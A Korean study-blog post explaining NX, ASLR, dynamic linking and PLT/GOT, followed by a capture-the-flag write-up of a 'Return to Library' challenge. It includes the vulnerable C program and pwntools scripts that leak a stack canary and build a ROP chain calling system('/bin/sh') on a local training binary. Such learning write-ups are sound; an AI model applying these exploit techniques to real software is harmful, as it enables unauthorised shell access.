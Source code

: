 ```yaml
---
title: NX, ASLR 학습
published: 2025-09-04
author: siaa
description: 'NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었어요'
image: ''
tags: ["Pwn"]
category: 'PWN'
draft: false
---
```

## 1. **NX** (No-eXexute)
   **정의**: 실행에 사용되는 메모리 영역과 쓰기에 사용되는 메모리 영역을 분리하는 보호기법

   **확인 방법**: `checksec`을 이용하면 **NX**가 적용되었는지 확인 가능

   즉, NX가 적용되었다면 직접 올린 셸코드를 사용할 수 없다.

## 2. **ASLR** (Addreaa Space Layout Randomization)
   **정의**: 바이너리가 실행 될 때마다 스택, 힙, 공유 라이브러리 등을 임의의 주소에 할당하는 보호 기법

   **특징**
       - main함수를 제외한 다른 영역의 주소는 실행할 때마다 변경됨 (PIE 적용 x)
       - libc_base 주소 하위 12 비트 값과 printf 주소 하위 12비트의 값은 항상 같음
       - 리눅스는 페이지 단위로 임의 주소에 매핑함, 12비트 이하로는 주소 변경이 안됨
       - libc_base와 printf, read 의 주소 차이는 항상 같음

## 3. **라이브러리**
   **정의**: 컴퓨터 시스템에서 함수나 변수를 공유해 사용할 수 있도록 함

   **장점**: 같은 함수를 반복적으로 정의할 필요가 없어 개발 효율이 높아짐

   C언어 표준 라이브러리로는 **libc**이 있으며 우분투에 탑제 되어있다.

## 4. **링크**
   **정의**: 컴파일의 마지막 단계

   **역할**: 심볼과 관련된 정보들을 찾아서 최종 파일에 기록하는 일을 함

   **종류**
       - 동적링크: 실행 파일이 작지만 실행 중 라이브러리가 필요하며, 실행 -> 메모리에 매핑 -> 함수 주소 찾기 -> 실행순으로 진행됨
       - 정적링크: 실행 파일이 크지만, 실행 속도가 빠르고 외부 라이브러리 필요 없음

## 5. **PLT**와 **GOT**
   **정의**: 라이브러리에서 동적 링크 된 심볼의 주소를 찾을 때 사용되는 테이블<br

   **runtime resolve**: 라이브러리 함수 호출 -> 라이브러리에서 심볼 탐색 -> 함수의 정의 발견 -> 그 주소로 실행 흐름 옮기는 과정

   **GOT**: resolve된 함수의 주소를 저장하는 테이블

   => 그러나 PLT에서 GOT를 참조하여 실행흐름을 옮길때 GOT값을 검증하지 않기에 GOT의 값을 임의로 변경하면 원하는 코드를 실행시킬 수 있다.

## 6. 푼문제
   NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었다.

   다음은 문제이다.
```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
   7행을 보면 `const char* binsh = "/bin/sh";`가 있는데 이는 **"/bin/sh"**을 바이너리에 추가하기 위한 코드이다.

   16행을 보면 `system("echo 'system@plt'");`가 있는데 이는 **system 함수**를 PLT에 추가하기 위한 코드이다.

   **"/bin/sh"**의 주소와 **system 함수**의 주소를 알기에 rdi가 "/bin/sh"인 상태로 system함수를 호출하면 문제를 풀 수 있다.
   <br>

   GDB에서 `checksec`을 쳐서 카나리가 있는 것을 확인 했다.
   ```
   pwndbg> checksec
   File:     /home/siaa/dreamhack/Return_to_Library/rtl
   Arch:     amd64
   RELRO:      Partial RELRO
   Stack:      Canary found
   NX:         NX enabled
   PIE:        No PIE (0x400000)
   Stripped:   No
   ```
   <br>
   
   우선 카나리를 우회하기 위해 첫번째 입력에서 카나리를 얻었다.
   ```py
   from pwn import*
   p = process("./rtl")
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   ```
   <br>
   
   그리고 rdi값을 "/bin/sh"의 주소로 바꾸고 system함수를 호출했다.

   리턴 가젯을 사용하면 rdi를 pop한 후 "/bin/sh"주소로 바꾸고 system함수를 호출할 수 있다.

   이때 system 함수로 rip가 이동할 때는 항상 스택이 0x10단윌 정렬 되어있어야 한다.
   
   ```py
   from pwn import*
   p = process("./rtl")
   e = ELF('./rtl')

   # canary
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   a = b'\x00' * 56 + c + b'\x00' * 8

   # payload
   system_plt = e.plt['system']
   binsh = 0x400874 # /bin/sh 주소
   pop_rdi = 0x0000000000400853
   ret = 0x0000000000400596
   a = a + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system_plt)
   
   p.sendlineafter(b'Buf: ',a)
   p.interactive()
   ```
   이렇게 했더니 문제가 풀렸다.